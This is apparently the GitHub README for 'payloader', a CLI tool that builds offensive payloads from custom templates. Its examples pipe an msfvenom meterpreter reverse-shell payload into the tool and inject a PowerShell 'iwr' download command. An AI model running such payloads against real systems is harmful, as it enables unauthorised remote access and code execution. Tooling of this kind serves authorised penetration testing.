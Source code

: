 # payloader

Generate payloads using a a simple cli interface for faster access to custom payloads.

payloader allow you to automate a whole lot of copy paste work to speed up that workflow inthe shell.

Inputs are substituted into custom templates and automate builds where possible. 

## Features

- Lightweight
- Cusom templates
- Payloads can be piped in and directly set.

Eg.

```
msfvenon -p windows/x64/meterpreter/reverse_tcp LPORT=443 LHOST=10.10.10.10 -f ps1 | payloader example.ps1 -f ps1 -o test
```

or

```bash
payloader example.ps1 -f ps1 -o test -p "iwr http://test.com/test -o test"
```


# Install

```bash
git clone https://github.com/desterhuizen/payloader.git
cd payloader
virtualenv .venv
ln -s $(realpath ./payloader.py) ~/.local/bin/payloader
git submodule add <YOUR PAYLOADS REPO> templates
git submodule init
```


